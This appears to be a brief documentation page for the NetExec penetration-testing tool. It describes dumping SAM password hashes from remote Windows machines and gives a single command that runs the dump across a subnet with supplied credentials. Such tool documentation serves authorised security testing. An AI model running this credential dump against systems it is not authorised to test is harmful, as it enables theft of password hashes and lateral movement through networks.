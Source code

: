 # Dump SAM

### Dump SAM hashes using methods from secretsdump.py

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
```

